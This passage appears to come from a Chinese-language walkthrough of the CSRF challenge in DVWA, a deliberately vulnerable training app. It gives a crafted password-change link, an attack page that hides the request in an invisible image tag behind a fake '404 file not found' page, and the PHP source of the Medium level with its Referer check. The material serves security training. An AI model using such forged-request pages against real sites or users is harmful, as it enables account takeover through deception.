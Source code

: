 #### 漏洞利用
###### 0x01 构造链接

../?password_new=password&password_conf=password&Change=Change#
ps：当受害者点击了这个链接，他的密码就会被改成password。但是如果受害者之前用Chrome浏览器登录的这个系统，而用QQ浏览器点击这个链接，攻击是不会触发的，因为QQ浏览器并不能利用Chrome浏览器的cookie，所以会自动跳转到登录界面。

![](https://image.3001.net/images/20161031/14778953244372.png)

###### 0x02 构造攻击页面
有人会说，这样的连接太明显了，一眼就知道是假的，有问题。所以真正的攻击场景下，我们会对连接进行处理，比如：生成短链接，构造攻击页面等等。

```html
<img src="http://****/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/>

<h1>404<h1>

<h2>file not found.<h2>
```
当受害者访问我们构造的网页时（当然我们可以自己弄个服务器，我这里是本地弄得一个网页），会误认为点击得是一个失效链接，其实实际上已经遭受攻击，密码被修改为了hack。

![](https://image.3001.net/images/20161031/14778955408376.png)

## Medium

#### 源码
```php
<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Checks to see where the request came from 
    if( eregi( $_SERVER[ 'SERVER_NAME' ], $_SERVER[ 'HTTP_REFERER' ] ) ) { 
        // Get input 
        $pass_new  = $_GET[ 'password_new' ]; 
        $pass_conf = $_GET[ 'password_conf' ]; 

        // Do the passwords match? 
        if( $pass_new == $pass_conf ) { 
            // They do! 
            $pass_new = mysql_real_escape_string( $pass_new ); 
            $pass_new = md5( $pass_new ); 

            // Update the database 
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';"; 
            $result = mysql_query( $insert ) or die( '<pre>' . mysql_error() . '</pre>' ); 

            // Feedback for the user 
            echo "<pre>Password Changed.</pre>"; 
        } 
        else { 
            // Issue with passwords matching 
            echo "<pre>Passwords did not match.</pre>"; 
        } 
    } 
    else { 
        // Didn't come from a trusted source 
        echo "<pre>That request didn't look correct.</pre>"; 
    } 

    mysql_close(); 
} 

```